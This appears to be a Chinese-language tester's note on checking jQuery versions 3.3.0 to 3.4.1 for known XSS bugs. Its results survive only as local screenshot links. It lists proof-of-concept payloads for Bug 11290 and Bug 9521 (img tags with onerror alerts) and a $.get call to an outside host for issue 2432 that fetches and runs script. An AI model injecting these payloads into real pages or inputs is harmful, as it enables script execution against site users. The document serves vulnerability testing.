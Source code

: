 ### Jquery版本来源

https://www.bootcdn.cn/jquery/

### 测试代码

模拟业务系统中引用了某个版本的juuery。

![img](file:///C:/Users/10615/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

### Payload

Bug 11290：

$("element[attribute='<img src=x onerror=alert(666)>'")

 

Bug 9521：

$("<img src=1 onerror=confirm('xss');>")

$("<img src=x onerror=alert('xss');>")

 

issue 2432:

$.get('http://sakurity.com/jqueryxss')

### 3.4.1

![img](file:///C:/Users/10615/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

### 3.4.0

![img](file:///C:/Users/10615/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

 

### 3.3.1

![img](file:///C:/Users/10615/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

### 3.3.0

![img](file:///C:/Users/10615/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

 

 

 

 

 
